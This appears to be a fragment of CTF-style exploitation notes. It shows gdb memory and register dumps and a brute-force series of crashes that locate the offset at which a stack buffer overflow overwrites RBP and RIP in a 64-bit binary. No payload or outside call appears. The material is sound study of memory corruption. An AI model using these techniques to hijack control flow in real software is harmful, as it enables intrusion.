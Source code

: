 ```
0x7fffffffde28: 0x7160a56d      0x98161668      0x00000000      0x00000000
0x7fffffffde38: 0xffffdf18      0x00007fff      0x00000000      0x00000000
0x7fffffffde48: 0xf7ffd000      0x00007fff      0xcd62a56d      0x67e9e997
0x7fffffffde58: 0x3c66a56d      0x67e9f9d6      0x00000000      0x00000000
```

Sick so, we can count, or we can BF our number of A's

At 40 chars, we get a `BUS` error when `RBP` is overwritten
```
(gdb) $ info registers
rax            0x0                 0
rbx            0x7fffffffdf08      140737488346888
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffdc20      140737488346144
rdi            0x7fffffffdbf0      140737488346096
rbp            0x4141414141414141  0x4141414141414141
```

RIP is overwritten at n = 14, then becomes something else at 16
```
0x7ffff7df0041
10
Program received signal SIGSEGV, Segmentation fault.

0x7ffff7004141
11
Program received signal SIGSEGV, Segmentation fault.

0x7fff00414141
12
Program received signal SIGSEGV, Segmentation fault.

0x7f0041414141
13
Program received signal SIGSEGV, Segmentation fault.

0x4141414141
14
Program received signal SIGSEGV, Segmentation fault.

0x414141414141
15
Program received signal SIGSEGV, Segmentation fault.

0x40071a
16



```
